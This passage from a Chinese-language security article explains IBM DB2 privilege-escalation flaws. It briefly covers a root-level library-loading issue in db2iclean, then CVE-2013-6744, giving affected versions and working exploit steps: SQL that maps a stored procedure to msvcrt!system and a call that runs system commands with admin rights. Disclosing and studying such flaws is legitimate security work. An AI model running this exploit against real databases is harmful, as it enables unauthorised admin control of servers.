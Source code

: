 使用db2iadm1组的普通用户运行db2iclean程序：

```
<DB2_instance_install_directory>/adm/db2iclean

```

可见此时euid为0，代码以root权限运行

![pic52](http://drops.javaweb.org/uploads/images/336ca8b9f1a91af95d12c429564421c19c41a983.jpg)

注意：由于db2iclean不是公开执行权限，所以攻击者需要使用db2iadm1组用户执行，或诱使该组成员在攻击者写入了恶意库文件的目录下执行该程序。

CVE-2013-6744
-------------

CVE-2013-6744是DB2在windows平台下的提权漏洞，利用该漏洞将使windows普通用户获取到Administrator权限

存在漏洞的DB2版本：

*   9.5, 9.7 FP9a之前版本
*   10.1 FP3a之前版本
*   10.5 FP3a之前版本

利用该漏洞需要有一个可以连接DB2数据库的用户，且该用户具有创建外部例程的权限(CREATE_EXTERNAL_ROUTINE)

该漏洞原理为：在Windows平台特权帐户默认情况下，DB2服务运行时并不受访问控制检查，这意味着可以通过CREATE_EXTERNAL_ROUTINE权限创建一个库文件并且形成调用，从而权限得以提升。

漏洞利用步骤：

1.使用具有CREATE_EXTERNAL_ROUTINE权限的用户运行以下DDL，利用C runtime system来创建一个存储过程：

```
CREATE PROCEDURE db2_exec (IN cmd varchar(1024)) EXTERNAL NAME 'msvcrt!system' LANGUAGE C DETERMINISTIC PARAMETER STYLE DB2SQL

```

2.调用刚才创建的存储过程：

```
CALL db2_exec('whoami /all > C:\whoami.log')

```

查看命令创建的whoami.log文件，发现包含了db2admin信息。这意味着，我们用一个非管理员账户成功用管理员权限执行了命令。

0x07 参考
=======

* * *

*   [http://en.wikipedia.org/wiki/IBM_DB2](http://en.wikipedia.org/wiki/IBM_DB2)
*   [http://www.ibm.com/developerworks/cn/data/library/techarticles/dm-0503melnyk/](http://www.ibm.com/developerworks/cn/data/library/techarticles/dm-0503melnyk/)
*   [http://www.sqlinjectionwiki.com/Categories/7/ibmdb2-sql-injection-cheat-sheet/](http://www.sqlinjectionwiki.com/Categories/7/ibmdb2-sql-injection-cheat-sheet/)
*   [http://www-01.ibm.com/support/docview.wss?uid=swg21672100](http://www-01.ibm.com/support/docview.wss?uid=swg21672100)
*   [http://blog.spiderlabs.com/2014/07/about-two-ibm-db2-luw-vulnerabilities-patched-recently.html](http://blog.spiderlabs.com/2014/07/about-two-ibm-db2-luw-vulnerabilities-patched-recently.html)